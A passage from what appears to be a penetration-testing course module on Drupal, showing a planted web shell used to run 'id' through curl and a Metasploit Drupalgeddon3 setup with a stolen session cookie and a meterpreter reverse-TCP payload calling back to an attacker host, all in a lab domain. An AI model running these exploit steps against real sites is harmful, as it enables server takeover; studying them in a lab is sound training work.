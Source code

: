 Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/mrb3n.php
</code></pre>
<p>Finally, we can confirm remote code execution using <code>cURL</code>.</p>
<pre><code class="language-shell-session">[!bash!]$ curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
</code></pre>
<hr/>
<h2>Drupalgeddon3</h2>
<p><a href="https://github.com/rithchard/Drupalgeddon3">Drupalgeddon3</a> is an authenticated remote code execution vulnerability that affects <a href="https://www.drupal.org/sa-core-2018-004">multiple versions</a> of Drupal core. It requires a user to have the ability to delete a node. We can exploit this using Metasploit, but we must first log in and obtain a valid session cookie.</p>
<p><img alt="image" src="https://academy.hackthebox.com/storage/modules/113/burp.png"/></p>
<p>Once we have the session cookie, we can set up the exploit module as follows.</p>
<pre><code class="language-shell-session">msf6 exploit(multi/http/drupal_drupageddon3) &gt; set rhosts 10.129.42.195
msf6 exploit(multi/http/drupal_drupageddon3) &gt; set VHOST drupal-acc.inlanefreight.local   
msf6 exploit(multi/http/drupal_drupageddon3) &gt; set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
msf6 exploit(multi/http/drupal_drupageddon3) &gt; set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) &gt; set LHOST 10.10.14.15
msf6 exploit(multi/http/drupal_drupageddon3) &gt; show options 

Module options (exploit/multi/http/drupal_drupageddon3):

   Name            Current Setting                                                                   Required  Description
   ----            ---------------                                                                   --------  -----------
   DRUPAL_NODE     1                                                                                 yes       Exist Node Number (Page, Article, Forum topic, or a Post)
   DRUPAL_SESSION  SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y  yes       Authenticated Cookie Session
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.129.42.195                                                                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:&lt;path&gt;'
   RPORT           80                                                                                yes       The target port (TCP)
   SSL             false                                                                             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI       /                                                                                 yes       The target URI of the Drupal installation
   VHOST           drupal-acc.inlanefreight.local                                                    no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
